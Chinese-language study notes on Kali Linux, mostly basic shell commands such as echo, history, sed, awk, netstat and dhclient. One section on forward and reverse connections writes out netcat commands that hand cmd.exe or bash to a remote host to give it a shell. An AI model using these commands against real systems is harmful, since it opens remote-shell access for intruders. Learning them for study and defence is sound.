 # kali-linux system learnning

echo $USER 输出当前用户名

echo $PWD 输出当前路径

echo $HOME 家目录

export b=127.0.0.1  设置一个变量，并赋值

ping -c 2 $b 使用ping命令发送2次数据包到该变量值

echo "$$" 使用两个符号来查看当前shell实例进程的id

var="zhangsan" 使用var命令创建一个对象

echo $var 输出当前变量

history 查看当前命令历史 

!1	命令历史当中的第一条命令会被执行

!! 执行上一条命令

ls 列出当前目录下文件

echo "abc" > redirection_test.txt 将abc内容输出到一个文件中,注意，使用>会进行覆盖写入，追加写入可以使用>>

wc -m < redirection_text.txt 记录当前文本中的字符数

echo "lalala a b c d header" | sed 's/header/head/' 使用sed替换文本内的某一段内容

cut -d ":"  -f 1 /etc/passwd 取出当前文本内以冒号分隔的第一串字符

echo "hello::there::friend" | awk -F "::" '{print $1,$3}' 以冒号分隔并取出第一个字符串以及第三个字符串

netstat用来查看系统当前系统网络状态信息，包括端口，连接情况等，常用方式如下：

```
netstat -atunlp,各参数含义如下:

-t : 指明显示TCP端口

-u : 指明显示UDP端口

-l : 仅显示监听套接字(LISTEN状态的套接字)

-p : 显示进程标识符和程序名称，每一个套接字/端口都属于一个程序

-n : 不进行DNS解析

-a 显示所有连接的端口
```

正向连接与反向连接
a主机为windows
b主机为linux
正向连接a：nc -nv 192.1.1.2 8888 -e cmd.exe 主机为windows则需要使用-e参数来进行程序重定向
b:nc -lp 8888 在b主机上发起一个监听端口等待a主机的连接  ----监听机获得连接机的cmd执行权限
反向连接a:nc -nv 192.168.1.2 8888 
b:nc -lp 8888 -c bash 使用-c参数将bash丢给连接方  -----a主机获得b主机的shell执行

```

host -t ns megacorpoe.com 其中-t后面的参数可以修改为任意类型参数，比如mx，

```

```
tail -f aaa.log #动态显示日志文件内容
```

Dhclient -r eth0 清除IP设置

dhclient -v eth0 重新获取IP

Service ssh start 开启ssh systemctl start ssh

Systemctl enable ssh 设置开机启动

